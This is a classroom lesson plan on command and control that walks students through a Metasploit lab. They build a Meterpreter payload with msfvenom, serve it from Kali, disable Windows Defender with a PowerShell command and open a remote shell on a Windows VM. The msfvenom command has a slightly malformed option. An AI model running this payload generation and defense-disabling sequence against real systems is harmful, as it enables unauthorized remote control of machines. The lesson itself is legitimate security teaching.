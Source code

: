 ## 1.3 Lesson Plan: Command and Control

#### Overview

 In today's lesson, we start by learning what command and control (C2) is and how it's used by malicious actors in order to communicate with computers they control or have compromised.

#### Class Objectives

By the end of class, students will be able to:

- Explain what C2 is and how it fits in an offensive security operation

- Use Metasploit to generate a malicious executable with `msfvenom` and establish a connection back to their C2 server

- Perform basic reconnassiance with Meterpreter

### Lab Environment

Students will use their Kali virtual machine to act as the C2 "server" and run their generated malicious executable on the Windows 10 virtual machine. 

### Slideshow and Timetracker

The lesson slides are available on Google Drive here: [1.2 Slides](https://docs.google.com/presentation/d/1AUuAjxX7_oIm5TOJHHXP6qROy8kmxuhMzVqyov3RVNs/edit?usp=sharing)

### 01. Instructor Do: C2 Architecture and the Metasploit Framework
 
Welcome students back to class and explain that today we will be learning what a command and control framework is and how it's used in an offensive operation. We will also introduce students to their first C2 framework, Metasploit.

`Note:` Metasploit is considered both an exploitation and Command and Control framework, where most C2 platforms today are just C2 frameworks (No exploitation).

Students should have an understanding of the cyber 'kill chain' in which today we will explore how the command and control architecture assists throughout the process. 

When an attacker compromises a computer, they directly control that machine. Throughout the cyber kill chain, an attacker will compromise several machines, which means several machines are then communicating with that single attacking machine. This is know as 'command and control'.

In a traditional C2 architecture, multiple compromised machines, also known as "zombies", communicate with a single C2 'framework', hosted on a machine. 

- C2 architecture has evolved signficiantly over the past decade so that the true C2 server is concealed through various methods, instead of a direct Server -> Host architecture.

- In order to communicate back to the C2 server, the compromised machine must run an 'agent', which typically is a malicious executable or code that runs on the target machine.

- Most C2 frameworks support multiple different ways of connectivity, also known as "channels".

A compromised host can communicate using either a single channel or several channels over various protocols. Some of these protocols include

- DNS
- HTTP
- HTTPS
- TCP (Arbritary port)
- SMB

The protocol being used is dependent on the target's network firewall egress rules. Typically, most egress rules allow HTTP/S and DNS outbound, which is why those channels are commonly used for C2 communication.

While under the control of a C2 server, a zombie will periodically communicate back with the C2 server to 'check-in' for any updates. This is commonly referred to as a 'heartbeat'. Whenever a compromised computer checks in with the C2 server, it will do two things.

1) Let the server know the malicious process is still running
2) Ask for any instructions 

When the compromised computer asks for any instructions, it's asking if any commands need to be executed. 

For example, if the operator of the C2 server issues a command, `pwd`, to the compromised machine, that command is only run when the compromised machine checks-in with the C2 server. This interval is commonly able to be changed and is depedant on the C2 framework being used.

The C2 framework we will be using for this class is Metasploit. Metasploit is both a C2 and exploit framework, supporting a variety of different payloads. 

- Metasploit will be heavily used during this module, however we are simply introducing them to Meterpreter to demonstrate how C2 works.

- We will cover the capabilities of the 'Meterpreter' shell later in the course.

### 02. Student Do: Command and Control Framework research

In this activity, students will research various C2 frameworks and document similiarities and differences between them

Share the following link with students: https://www.thec2matrix.com/matrix


### 03. Instructor Do: Metasploit Framework and msfvenom

Remind students that as shown in their research activity, there are many choices for C2. In this class, however, we will be focusing on using Metasploit.

- Metasploit is a tool that has been around for quite a bit and owned by the company Rapid 7. 

- There's a free version, which is what comes installed on Kali by default, and a professional version, which expands on it's exploitation and C2 capabilities

Metasploit has an additional component, msfvenom, which allows the operator to craft the malicious agents and payloads that will be used to communicate back with Metasploit.

### 04. Instructor Do: Metasploit and msfvenom demonstration

1. Login to the Kali machine with credentials `root/toor`

2. Click on the Metasploit icon on the taskbar

Explain to students that unlike most C2 frameworks, Metasploit is purely commandline based and has no web application or GUI. 

3. Once metasploit is started, type `use exploit/multi/handler` 

Explain to students that in order for the payload/agent we're going to craft to communicate back to Metasploit, we need to start something called a 'listener' that "listens" for the payload to talk back.

- Without starting a listener, the C2 server will not be able to communicate with any agents.

- Metasploit works through its use of "modules". In this case, we're using the `exploit/multi/handler` module which is Metasploit's listener module.

4. Type `ip addr` to get the IP address of the Kali machine, then type `set LHOST <kali ip address>`

5. After the LHOST (listener host) is set, set the LPORT by typing `set LPORT 4444`

![](/Images/01.Metasploitoptions.PNG)

6. Once LPORT and LHOST is set, start the listener by typing `run -j`. The `-j` option sets it to run in background.

7. Next, generate the agent/payload by typing `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe` 

![](/Images/02.Metasploitmsfvenom.PNG)

8. Clear out the /var/www/html/ folder: `rm /var/www/html/*`

9. Move the payload to /var/www/html: `mv shell.exe /var/www/html/`

10. Start the apache web service by typing `service apache2 start`

![](/Images/03.apache.PNG)

11. Now move from your Kali VM to your Windows VM. Open an web browser and browse to your Kali's IP address. Download the `shell.exe` payload and execute it.

- Note: Windows Defender should be turned off. If not turned off, open PowerShell as administrator and run `Set-MPPreference -DisableRealTimeMonitoring $true` 

![](/Images/04.Windows.PNG)

12. Back in Kali, you should see a message "Meterpreter Session 1 opened". To interact with this session, type `sessions -i 1`

![](/Images/05.Session.PNG)

13. You now have a shell into the Windows machine, with Metasploit operating as the C2 server. Demonstrate commands such as `ls` and `pwd` to show you're on the Windows machine.

![](/Images/06.Command.PNG)

We will explore the capabilities of the Meterpreter shell later in the course. 

### 05. Student Do: Metasploit and MSFVenom

In this activity, students will follow in the instructor's footpath and use Metasploit and MSFvenom to open a shell on their Windows VM.

